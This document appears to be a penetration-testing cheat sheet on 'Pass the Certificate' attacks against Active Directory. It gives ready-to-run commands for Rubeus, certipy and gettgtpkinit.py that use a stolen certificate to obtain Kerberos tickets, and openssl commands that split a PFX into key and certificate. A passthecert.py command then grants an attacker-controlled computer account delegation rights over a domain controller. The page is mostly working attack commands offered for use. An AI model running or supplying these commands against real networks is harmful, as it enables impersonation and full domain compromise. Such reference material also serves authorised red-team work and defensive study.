 # Pass the Certificate

## Tools: gettgtpkinit.py , Rubeus , certipy

# PKINIT

#### 1) Rubeus

 - Rubeus.exe asktgt /user:"USERNAME" /certificate:"PFX_FILE" [/password:"CERTIFICATE_PASSWORD] /domain:"FQDN_DOMAIN" /dc:"DC" /show

#### 2) certipy

 - certipy auth -pfx CRT_FILE -dc-ip DC_IP

#### 3) gettgtpkinit.py

 - gettgtpkinit.py -cert-pfx "PFX_FILE" [cert-pfx-pass "CERT_PASSWORD"] "FQDN_DOMAIN/USER "TGT_CCACHE_FILE"

### These 3 techniques can be performed for a Pass-the-Ticket attack

# Schannel (Secure Channel)

#### 1) certipy

 - certipy auth -pfx CRT_FILE -ldap-shell

 - add_computer

 - set_rbcd

#### 2) PassTheCert.py https://github.com/AlmondOffSec/PassTheCert.git

### Extract the .key and .crt files from the .pfx file

 - openssl pkcs12 -in USER_CERT.pfx -nocerts -out USER.key (Extract the .key file. Leave import password blank and put something like 1234 for PEM pass.)

 - openssl pkcs12 -in USER_CERT.pfx -clcerts -nokeys -out USER.crt (Extract the .crt file)

 - python3 passthecert.py -dc-ip DC_IP -crt USER.crt -key USER.key -domain DOMAIN.LOCAL -port 636 -action write_rbcd -delegate-to 'DOMAIN$' -delegate-from 'OUR_COMP$' (Authenticate against LDAPS using Schannel. In this example, we give the computer account we control RBCD, AKA delegation rights over the DC. Enter the PEM phrase we used when extracting the .key file earlier)

### With this technique, we can now perform an RBCD attack
